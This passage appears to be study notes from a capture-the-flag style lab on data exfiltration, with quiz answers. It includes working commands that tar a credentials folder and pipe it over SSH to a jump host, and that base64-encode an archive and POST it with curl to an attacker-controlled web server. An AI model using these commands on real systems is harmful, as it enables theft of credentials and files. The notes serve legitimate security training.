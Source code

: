 ```shell
#unarchive file to get creds in plaintext
```

```markdown
1. Exfiltration using TCP sockets relies on ____________ protocols! - non-standard
```

## Exfiltration using SSH

* As SSH establishes a secure channel to move data, all transmission data is encrypted over the network.

```shell
#after connecting to victim1 machine on attacker machine via ssh
cat task5/creds.txt
#we need to transfer the creds to JumpBox via ssh

#on attacker machine
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
#similar to previous one, we archive required file
#then we pass the archived file over ssh
#without having full ssh session
#the command goes to tmp directory and unarchives the creds file

#on JumpBox we can view the file
cat /tmp/task5/creds.txt
```

```markdown
1. All packets sent using the Data Exfiltration technique over SSH are encrypted? - T
```

## Exfiltrate using HTTP(S)

* For data exfiltration using HTTP/HTTPS protocol, attacker needs control over webserver with server-side programming language enabled.

```shell
#we can use POST HTTP method for data exfiltration
#on JumpBox
ssh thm@web.thm.com

sudo cat /var/log/apache2/access.log
#decode the base64 text to get flag

#now, for given scenario
#attacker controls web.thm.com
#we need to send data from victim1.thm.com machine
#attacker has set up php page to get data

#from attacker machine, connect to victim1.thm.com
ssh thm@10.10.224.91 -p 2022

ls -la
#we need to transfer task6 contents to another machine via HTTP

curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
#using curl with --data to send POST request via file
#where file is base64-encoded archive of secret folder

#now we can check /tmp directory in webserver
#in JumpBox
ls -l /tmp/
#this includes http.bs64 file

cat /tmp/http.bs64
```